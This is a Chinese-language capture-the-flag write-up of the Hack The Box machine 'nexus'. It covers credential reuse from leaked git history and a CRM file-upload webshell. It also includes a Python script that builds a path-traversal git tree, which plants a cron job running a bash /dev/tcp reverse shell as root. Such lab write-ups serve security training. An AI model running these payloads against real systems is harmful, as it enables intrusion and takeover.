









端口扫描 1 2 3 4 5 6 7 8 9 10 11 ┌──(kali㉿kali)-[~/HTB/nexus] └─$ sudo nmap -p- --min-rate 10000 nexus.htb Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-19 03:14 -0400 Nmap scan report for nexus.htb Host is up (0.098s latency). Not shown: 62180 closed tcp ports (reset), 3353 filtered tcp ports (no-response) PORT STATE SERVICE 22/tcp open ssh 80/tcp open http Nmap done : 1 IP address (1 host up) scanned in 33.95 seconds
web 渗透 先上 80 端口看一下：
没有什么有用的信息，只有一个邮箱看起来比较有用：j.matthew@nexus.htb。
进行了目录扫描，但也没有什么收获。
于是进行子域名扫描，扫描出来了两个子域名：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 ┌──(kali㉿kali)-[~/HTB/nexus] └─$ sudo gobuster vhost -w /usr/share/wordlists/subdomains-top1million-110000.txt -u nexus.htb --append-domain [sudo ] password for kali: Sorry, try again. [sudo ] password for kali: =============================================================== Gobuster v3.8.2 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) =============================================================== [+] Url: http://nexus.htb [+] Method: GET [+] Threads: 10 [+] Wordlist: /usr/share/wordlists/subdomains-top1million-110000.txt [+] User Agent: gobuster/3.8.2 [+] Timeout: 10s [+] Append Domain: true [+] Exclude Hostname Length: false =============================================================== Starting gobuster in VHOST enumeration mode =============================================================== git.nexus.htb Status: 200 [Size: 14472] billing.nexus.htb Status: 302 [Size: 390] [--> http://billing.nexus.htb/admin/login]
先看 git.nexus.htb ，发现里面有一个公开的仓库：

把它给 git clone 下来进行分析。
.env 的信息显示，这似乎是 billing.nexus.htb 这个项目的部分代码：
1 2 3 4 5 6 7 ┌──(kali㉿kali)-[~/HTB/nexus/krayin-docker-setup] └─$ cat .env APP_NAME='Krayin CRM' APP_ENV=local APP_KEY= APP_DEBUG=true APP_URL=http://billing.nexus.htb
git log --all -p 发现了一个密码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 ┌──(kali㉿kali)-[~/HTB/nexus/krayin-docker-setup/.git] └─$ git log --all -p commit 9b817fa4e073d12fc43952acb09f3067b2f17adf (HEAD -> main, origin/main, origin/HEAD) Author: admin <admin@nexus.htb> Date: Thu Apr 23 18:05:22 2026 +0000 Upload files to "/" diff --git a/.env b/.env index cb7ccc3..5ae1bb2 100644 --- a/.env +++ b/.env @@ -2,7 +2,7 @@ APP_NAME='Krayin CRM' APP_ENV=local APP_KEY= APP_DEBUG=true -APP_URL=http://nexus.htb +APP_URL=http://billing.nexus.htb APP_TIMEZONE=Asia/Kolkata APP_LOCALE=en APP_CURRENCY=USD @@ -15,7 +15,7 @@ DB_HOST=krayin-mysql DB_PORT=3306 DB_DATABASE=krayin DB_USERNAME=krayin -DB_PASSWORD=N27xh!!2ucY04 +DB_PASSWORD= DB_PREFIX= BROADCAST_DRIVER=log CACHE_DRIVER=file
密码为 N27xh!!2ucY04，这个密码说是数据库的密码，但是数据库端口没有开放，我们无法访问数据库。
尝试访问 billing.nexus.htb ，是个登录页面：

想到之前主页面有一个邮箱，这里刚好也需要邮箱进行登录，而且我们有一个密码，尝试使用 j.matthew@nexus.htb:N27xh!!2ucY04 作为一个登录凭据进行登录，发现登录成功了：

在里面找了一圈，没有发现什么有用的信息。
于是去网上找是否有这个 krayin 的漏洞，发现了 CVE-2026-36340 ，这是一个文件上传导致 RCE 的漏洞。
krayin 的邮件发送功能可以发送附件，该附件在发送时，会被上传到服务器里，而且不会校验文件后缀名或者是文件类型，所以我们可以上传一个 php 文件。而且，文件被上传之后会被存到 http://billing.nexus.htb/storage/emails/<email-id>/ 这个目录下面。
用该漏洞上传了一个 webshell ：

接着反弹 shell 即可：
1 2 3 4 5 6 7 8 9 ┌──(kali㉿kali)-[~/HTB/nexus] └─$ nc -nvlp 1234 listening on [any] 1234 ... bash: cannot set terminal process group (1474): Inappropriate ioctl for device bash: no job control in this shell www-data@nexus:~/krayin/storage/app/public/emails/2$ ls ls info.php www-data@nexus:~/krayin/storage/app/public/emails/2$
提权 在 /var/www/krayin/.env 里面，发现了一个密码 y27xb3ha!!74GbR：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 www-data@nexus:~/krayin$ cat .env cat .env APP_NAME="Krayin CRM" APP_ENV=local APP_KEY=base64 :n4swv+4YcBtCr1OPHBe69GxK06/X1y1vCQU1SIMIC7Q= APP_DEBUG=true APP_URL=http://billing.nexus.htb APP_TIMEZONE=Asia/Kolkata APP_LOCALE=en APP_CURRENCY=USD VITE_HOST= VITE_PORT= LOG_CHANNEL=stack LOG_LEVEL=debug DB_CONNECTION=mysql DB_HOST=127.0.0.1 DB_PORT=3306 DB_DATABASE=krayin DB_USERNAME=krayin DB_PASSWORD=y27xb3ha!!74GbR DB_PREFIX=
同时发现系统中存在 jones 这个用户，尝试使用该密码作为 jones 用户进行 ssh 登录，登录成功了：

拿到了 user flag。
systemctl list-timers 查看计划任务，发现了一个 gitea-template-sync：

接着查看具体的 /etc/systemd/system/gitea-template-sync.service：
1 2 3 4 5 6 7 8 9 [Unit] Description=Sync Gitea templates After=network-online.target [Service] Type=oneshot User=root ExecStart=/usr/bin/python3 /etc/gitea/template-sync.py TimeoutStartSec=50s
发现是 root 用户会执行 /etc/gitea/template-sync.py 这个脚本，该脚本的内容如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 import osimport sysimport jsonimport subprocessimport timeimport urllib.requestGITEA_URL = "http://localhost:3000" REPO_ROOT = "/var/lib/gitea/data/gitea-repositories" STAGING_DIR = "/home/git/template-staging" LOG_FILE = "/var/log/template-sync.log" def log (msg ): ts = time.strftime("%Y-%m-%d %H:%M:%S" ) line = "[%s] %s" % (ts, msg) print (line, flush=True ) try : os.makedirs(os.path.dirname(LOG_FILE), exist_ok=True ) with open (LOG_FILE, 'a' ) as f: f.write(line + '\n' ) except : pass def load_config (): config = {} for path in ['/etc/gitea/template-sync.conf' , '/opt/forge/app/.env' ]: try : with open (path) as f: for line in f: line = line.strip() if line and not line.startswith('#' ) and '=' in line: k, v = line.split('=' , 1 ) config[k.strip()] = v.strip() except : pass return config def get_token (): cfg = load_config() return cfg.get('GITEA_API_TOKEN' ) def get_template_repos (token ): url = "%s/api/v1/repos/search?limit=50" % GITEA_URL req = urllib.request.Request(url, headers={ 'Authorization' : 'token %s' % token }) try : with urllib.request.urlopen(req) as resp: data = json.loads(resp.read()) repos = data.get('data' , data) if isinstance (data, dict ) else data return [r for r in repos if r.get('template' , False )] except Exception as e: log("API error: %s" % e) return [] def sync_template (repo_info ): owner = repo_info['owner' ]['login' ] name = repo_info['name' ].lower() bare_path = os.path.join(REPO_ROOT, owner, "%s.git" % name) stage_path = os.path.join(STAGING_DIR, owner, name) if not os.path.isdir(bare_path): log(" repo not found: %s" % bare_path) return try : GIT = ['git' , '-c' , 'safe.directory=*' ] result = subprocess.run( GIT + ['ls-tree' , '-r' , 'HEAD' ], cwd=bare_path, capture_output=True , text=True , timeout=10 ) if result.returncode != 0 : log(" ls-tree failed: %s" % result.stderr.strip()) return except Exception as e: log(" ls-tree error: %s" % e) return entries = [] for line in result.stdout.strip().split('\n' ): if not line: continue parts = line.split('\t' , 1 ) if len (parts) != 2 : continue meta, filepath = parts mode, objtype, objhash = meta.split() if objtype == 'blob' : entries.append((mode, objhash, filepath)) if not entries: log(" no files in template" ) return for mode, objhash, filepath in entries: target = os.path.join(stage_path, filepath) target_dir = os.path.dirname(target) try : os.makedirs(target_dir, exist_ok=True ) GIT = ['git' , '-c' , 'safe.directory=*' ] cat_result = subprocess.run( GIT + ['cat-file' , 'blob' , objhash], cwd=bare_path, capture_output=True , timeout=10 ) if cat_result.returncode != 0 : continue with open (target, 'wb' ) as f: f.write(cat_result.stdout) if mode == '100755' : os.chmod(target, 0o755 ) else : os.chmod(target, 0o644 ) log(" synced: %s" % filepath) except Exception as e: log(" error syncing %s: %s" % (filepath, e)) def main (): log("Template sync starting" ) token = get_token() if not token: log("No API token found" ) sys.exit(1 ) templates = get_template_repos(token) log("Found %d template repo(s)" % len (templates)) for repo in templates: name = repo['full_name' ] log("Syncing template: %s" % name) sync_template(repo) log("Template sync complete" ) if __name__ == '__main__' : main()
这是一个复制模板仓库的脚本，会在 Gitea 里面进行扫描，如果发现模板仓库，就会复制到 /home/git/template-staging 这个目录下。
但是，其中有一个地方，target = os.path.join(stage_path, filepath)，这里是路径拼接，后续也没有判断这个文件的目标路径是不是一开始设定好的目录，因此有可能产生目录穿越，导致任意文件写入。
但是，我们想要让它能复制仓库，我们得先有一个 Gitea 的帐号。
测试发现，之前发现的 jones:y27xb3ha!!74GbR 这个凭据也可以登录到 Gitea 中，因此可以用这个账号进行利用。
于是，我们先登录 git.nexus.htb ，创建一个模版仓库 test ，创建好 Gitea 的 token ，再用如下的方法分部创建一个名字为 ../../../../../../../../etc/crom.d/root-shell 的文件。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 ┌──(kali㉿kali)-[~/HTB/nexus] └─$ echo '* * * * * root /bin/bash -c "/bin/bash -i >&/dev/tcp/x.x.x.x/4567 0>&1"' > root ┌──(kali㉿kali)-[~/HTB/nexus] └─$ export GITEA_URL="http://git.nexus.htb" ┌──(kali㉿kali)-[~/HTB/nexus] └─$ export GITEA_TOKEN="01adad649fcf940ee2fe616356a92723e2882c4b" ┌──(kali㉿kali)-[~/HTB/nexus] └─$ export GITEA_USER="jones" ┌──(kali㉿kali)-[~/HTB/nexus] └─$ git init . ┌──(kali㉿kali)-[~/HTB/nexus] └─$ BLOB_HASH=$(git hash-object -w root) ┌──(kali㉿kali)-[~/HTB/nexus] └─$ vim make_tree.py ┌──(kali㉿kali)-[~/HTB/nexus] └─$ python3 make_tree.py $BLOB_HASH Tree object created: 1852f43c8fac15dbe465158eabe900fe498cfdb1 ┌──(kali㉿kali)-[~/HTB/nexus] └─$ git config user.email "attacker@evil.com" ┌──(kali㉿kali)-[~/HTB/nexus] └─$ git config user.name "attacker" ┌──(kali㉿kali)-[~/HTB/nexus] └─$ COMMIT_HASH=$(git commit-tree 1852f43c8fac15dbe465158eabe900fe498cfdb1 -m "Malicious commit" )。# 把恶意 tree 包装成 commit（commit 只看 tree 是否存在，不看内容） ┌──(kali㉿kali)-[~/HTB/nexus] └─$ git remote add origin "$GITEA_URL /$GITEA_USER /test.git" ┌──(kali㉿kali)-[~/HTB/nexus] └─$ git push origin "${COMMIT_HASH} :refs/heads/main" --force Username for 'http://git.nexus.htb' : jones Password for 'http://jones@git.nexus.htb' : Enumerating objects: 3, done . Counting objects: 100% (3/3), done . Delta compression using up to 2 threads Compressing objects: 100% (3/3), done . Writing objects: 100% (3/3), 286 bytes | 286.00 KiB/s, done . Total 3 (delta 0), reused 0 (delta 0), pack-reused 0 (from 0) remote: . Processing 1 references remote: Processed 1 references in total To http://git.nexus.htb/jones/test.git * [new branch] 7e615f86f21da719f61b88fb6c2ea9c02c8d038c -> main
其中 make_tree.py 的内容如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 import zlibimport structimport sysblob_hash = sys.argv[1 ] malicious_path = "../../../../../../../../etc/cron.d/root-shell" entry_data = b"100755 " + malicious_path.encode() + b"\x00" + bytes .fromhex(blob_hash) tree_header = b"tree " + str (len (entry_data)).encode() + b"\x00" tree_content = tree_header + entry_data import hashlibtree_sha = hashlib.sha1(tree_content).hexdigest() object_path = f".git/objects/{tree_sha[:2 ]} /{tree_sha[2 :]} " import osos.makedirs(os.path.dirname(object_path), exist_ok=True ) with open (object_path, "wb" ) as f: f.write(zlib.compress(tree_content)) print (f"Tree object created: {tree_sha} " )
就这样，我们成功在 git.nexus.htb 里面创建了一个包含目录穿越的对象：

在靶机内查看 /var/log/template-sync.log 这个日志，也可以看到我们的项目已经被成功复制了：

本地也成功收到了 root 的反弹 shell ：

成功拿到了 root flag。